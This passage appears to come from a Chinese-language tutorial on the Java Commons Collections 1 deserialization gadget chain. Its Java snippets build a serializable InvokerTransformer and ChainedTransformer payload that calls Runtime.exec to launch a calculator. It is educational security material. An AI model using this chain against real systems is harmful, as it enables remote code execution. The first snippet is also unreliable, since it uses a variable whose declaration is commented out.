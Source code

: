 接下来我们需要写出 payload ，顺便解决其中几个关键问题。

#### 几个问题

我们需要解决第一个问题，那就是 Runtime 这个类它是不可以序列化的，他没有继承 Serizlizable 接口。

![Runtime](img_cc1\runtime.png)

这是普通的反射调用。

```java
Class<Runtime> c = Runtime.class;
// Method getRuntimeMethod = c.getMethod("getRuntime", null); 
Runtime r = ((Runtime) getRuntimeMethod.invoke(null, null)); #无参构造
r.exec("calc");
```

我们用 InvokerTransformer 实现下，因为它是可以序列化的。

```java
Method getRuntimeMethod = ((Method) new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class));
Runtime r = ((Runtime) new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getRuntimeMethod));
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(r);
```

我们可以使用 ChainedTransformer 包装下，这样我们只需要调用一次，它会把前一个 InvokerTransformer 的输出作为下一个 transform方法的输入。

```java
Transformer[] transformers = new Transformer[]{
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
